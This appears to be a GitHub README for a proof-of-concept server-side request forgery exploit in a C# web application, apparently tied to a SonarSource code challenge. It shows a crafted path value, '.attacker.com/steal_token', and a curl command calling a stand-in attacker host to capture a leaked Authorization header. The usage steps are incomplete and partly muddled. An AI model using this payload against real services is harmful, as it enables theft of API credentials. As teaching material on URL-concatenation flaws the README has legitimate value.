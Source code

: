 # SSRF via Regex Bypass

This repository contains a proof-of-concept (PoC) exploit for a **Server-Side Request Forgery (SSRF)** vulnerability in a C# web application. The vulnerability arises due to improper handling of user-supplied paths in API requests.

## Vulnerability Details

- The application constructs an API request by concatenating user input (`path`) with a base URL (`https://api.github.com`).
- If the `path` starts with a dot (`.`), it can lead to **URL Injection**, allowing an attacker to redirect requests to an external server (e.g., `https://api.github.com.attacker.com/steal_token`).
- The application includes an `Authorization` header with sensitive credentials, which may be leaked to the attacker's server.

## Exploit Scenario

An attacker can:

1. Submit a crafted request with `path=.attacker.com/steal_token`.
2. The server constructs a request to `https://api.github.com.attacker.com/steal_token` instead of GitHub.
3. The **Authorization header** is included in the request, exposing credentials to the attacker's server.

## Exploit Usage

### 1. Run the vulnerable C# application:

### 2. Send a malicious request:

```bash
curl -X GET "https://api.github.com.attacker.com/steal_token"
```

### 3. If the exploit is successful, the request is redirected and sensitive credentials may be leaked! 🚀


### References
https://www.sonarsource.com/knowledge/code-challenges/advent-calendar-2022/
